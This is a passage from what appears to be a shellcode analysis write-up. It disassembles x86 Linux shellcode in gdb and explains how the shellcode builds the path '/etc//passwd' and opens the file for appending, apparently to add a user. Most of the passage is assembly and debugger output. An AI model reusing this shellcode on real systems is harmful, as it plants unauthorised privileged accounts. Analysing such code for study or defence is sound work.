 ```
'cte/'
>>> binascii.unhexlify('61702f2f')
'ap//'
>>> binascii.unhexlify('64777373')
'dwss'
```
With Little Endian, this translates to-- '/etc//passwd'.  So, as expected, we are going to be opening /etc/passwd in order to add a user.  The double '/' in the middle is a way to make the string fit into the dword size so there aren't any compilcations with pushing the strings to the stack.  The trick uses the idea that the file path can have as many '/' in a row and it will still read the path as if it only has 1 slash in it. For example, /etc//////passwd, or /////etc/passwd both will be read as '/etc/passwd'.
```nasm
inc ecx
mov ch,0x4
int 0x80
```
ECX will hold the flag value for how we want to open the file.  1 means O_WRONLY. Next, 0x4 is moved into ch. ch is the upper 2 bytes of CX. Meaning CX is now 0x0401.  The flag constants are defined with octal values.  0x400 is octal 02000 which is defined as O_APPEND.

The next instruction is the interrupt that calls open('/etc//passwd', O_WRONLY|O_APPEND);
```nasm
00000025  93                xchg eax,ebx
00000026  E822000000        call dword 0x4d
... (skipping to call location)
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
```
The xchg instruction moves our return value from open to the EBX register -- our file descriptor.

It seems our instructions at the called location are off by a bit.  Let's open up gdb to see if we can get the proper instructions so we are walking through the right steps.. Let's disassemble the shellcode portion so we can find the proper address..
```nasm
gdb-peda$ disas
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	xor    ecx,ecx
   0x0804a042 <+2>:	mov    ebx,ecx
   0x0804a044 <+4>:	push   0x46
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	int    0x80
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373
   0x0804a054 <+20>:	push   0x61702f2f
   0x0804a059 <+25>:	push   0x6374652f
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a08d <code+77>
   0x0804a06b <+43>:	push   ebx
   0x0804a06c <+44>:	dec    esp
   0x0804a06d <+45>:	inc    ecx
   0x0804a06e <+46>:	inc    ebp
   0x0804a06f <+47>:	cmp    al,BYTE PTR [ecx+0x7a]
   0x0804a072 <+50>:	jb     0x804a0d7
   0x0804a074 <+52>:	outs   dx,BYTE PTR ds:[esi]
   0x0804a075 <+53>:	jp     0x804a0c7
   0x0804a077 <+55>:	pop    ecx
```